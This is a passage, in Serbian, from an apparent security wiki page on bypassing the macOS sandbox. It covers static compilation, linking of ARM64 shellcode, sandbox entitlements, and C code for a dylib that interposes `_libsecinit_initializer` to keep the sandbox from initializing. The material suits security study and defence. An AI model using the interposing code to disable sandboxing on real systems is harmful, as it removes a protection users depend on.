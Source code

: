 {% content-ref url="../../../macos-proces-abuse/" %}
[macos-proces-abuse](../../../macos-proces-abuse/)
{% endcontent-ref %}

### Static Compiling & Dynamically linking

[**Ova istraživanja**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) otkrila su 2 načina za zaobilaženje Sandbox-a. Zato što se sandbox primenjuje iz korisničkog prostora kada se **libSystem** biblioteka učita. Ako bi binarni fajl mogao da izbegne učitavanje, nikada ne bi bio pod sandbox-om:

* Ako je binarni fajl **potpuno statički kompajliran**, mogao bi da izbegne učitavanje te biblioteke.
* Ako **binarni fajl ne bi trebao da učita nijednu biblioteku** (jer je linker takođe u libSystem), ne bi trebao da učita libSystem.

### Shellcodes

Imajte na umu da **čak i shellcodes** u ARM64 treba da budu povezani u `libSystem.dylib`:
```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```
### Entitlements

Napomena da čak i ako su neke **akcije** možda **dozvoljene od strane sandučeta** ako aplikacija ima specifičnu **ovlašćenost**, kao u:
```scheme
(when (entitlement "com.apple.security.network.client")
(allow network-outbound (remote ip))
(allow mach-lookup
(global-name "com.apple.airportd")
(global-name "com.apple.cfnetwork.AuthBrokerAgent")
(global-name "com.apple.cfnetwork.cfnetworkagent")
[...]
```
### Interposting Bypass

Za više informacija o **Interpostingu** pogledajte:

{% content-ref url="../../../macos-proces-abuse/macos-function-hooking.md" %}
[macos-function-hooking.md](../../../macos-proces-abuse/macos-function-hooking.md)
{% endcontent-ref %}

#### Interpost `_libsecinit_initializer` da sprečite sandbox
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
void (*overriden__libsecinit_initializer)(void);
void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```
